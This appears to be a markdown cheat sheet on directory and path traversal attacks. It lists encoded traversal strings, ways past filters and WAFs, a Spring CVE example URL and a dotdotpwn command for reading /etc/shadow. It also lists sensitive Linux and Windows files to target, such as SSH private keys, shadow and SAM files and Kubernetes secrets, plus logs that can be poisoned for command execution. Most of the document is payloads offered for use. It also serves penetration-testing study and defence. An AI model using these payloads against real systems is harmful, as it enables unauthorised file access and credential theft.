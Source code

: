 # Directory traversal

> A directory or path traversal consists in exploiting insufficient security validation / sanitization of user-supplied input file names, so that characters representing "traverse to parent directory" are passed through to the file APIs.

## Summary

* [Tools](#tools)
* [Basic exploitation](#basic-exploitation)
    * [16 bits Unicode encoding](#16-bits-unicode-encoding)
    * [UTF-8 Unicode encoding](#utf-8-unicode-encoding)
    * [Bypass "../" replaced by ""](#bypass--replaced-by-)
    * [Bypass "../" with ";"](#bypass--with-)
    * [Double URL encoding](#double-url-encoding)
    * [UNC Bypass](#unc-bypass)
    * [NGINX/ALB Bypass](#nginxalb-bypass)
* [Path Traversal](#path-traversal)
    * [Interesting Linux files](#interesting-linux-files)
    * [Interesting Windows files](#interesting-windows-files)
* [References](#references)

## Tools

- [dotdotpwn - https://github.com/wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn)
    ```powershell
    git clone https://github.com/wireghoul/dotdotpwn
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Basic exploitation

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```
## Add note from Portswigger 

File path traversal, traversal sequences stripped non-recursively
```
....// or ....\/
Example: ....//....//....//etc/passwd
```
File path traversal, traversal sequences stripped with superfluous URL-decode
```
..%c0%af or ..%252f
Example: ..%252f..%252f..%252fetc/passwd. 
```

### 16 bits Unicode encoding

```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

### UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### Bypass "../" replaced by ""
Sometimes you encounter a WAF which remove the "../" characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

### Bypass "../" with ";"

```powershell
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 
```

### Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

**e.g:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271) with `http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini`

### UNC Bypass

An attacker can inject a Windows UNC share ('\\UNC\share\name') into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```

### NGINX/ALB Bypass

NGINX in certain configurations and ALB can block traversal attacks in the route, For example:
```http://nginx-server/../../``` will return a 400 bad request.

To bypass this behaviour just add forward slashes in front of the url:
```http://nginx-server////////../../```


## Path Traversal

### Interesting Linux files

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

### Interesting Windows files

Always existing file in recent Windows machine. 
Ideal to test path traversal but nothing much interesting inside...

```powershell
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
```

Interesting files to check out (Extracted from https://github.com/soffensive/windowsblindread)

```powershell
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

The following log files are controllable and can be included with an evil payload to achieve a command execution

```powershell
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

## References

* [Path Traversal Cheat Sheet: Windows](https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
* [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
* [CWE-40: Path Traversal: '\\UNC\share\name\' (Windows UNC Share) - CWE Mitre - December 27, 2018](https://cwe.mitre.org/data/definitions/40.html)
* [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d?source=friends_link&sk=e9ddbadd61576f941be97e111e953381)
* [Directory traversal - Portswigger](https://portswigger.net/web-security/file-path-traversal)
